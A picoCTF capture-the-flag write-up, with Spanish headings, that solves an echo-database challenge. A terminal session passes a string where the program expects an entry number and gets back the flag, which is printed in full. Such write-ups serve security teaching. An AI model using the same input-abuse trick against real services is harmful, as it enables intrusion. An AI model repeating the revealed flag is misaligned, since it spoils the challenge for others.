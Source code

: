 # Binary Explotation

## Descripcion

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 55825` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/542/program-redacted.c).

## Pistas (Si hay)

Try passing in things the program doesn't expect. Like a string instead of a number.

## Solución

``` Bash

┌──(kali㉿kali)-[~/…/Obsidian Vault/picoCTF/Retos Reversing picoCTF 2019 Parte 4/Need For Speed]
└─$ nc saturn.picoctf.net 55825
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
ivan
ivan
Please enter the length of your data:
3
3
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
iva
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
fqwefwqefwqefqwefqfe
fqwefwqefwqefqwefqfe
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}


```

## Referencias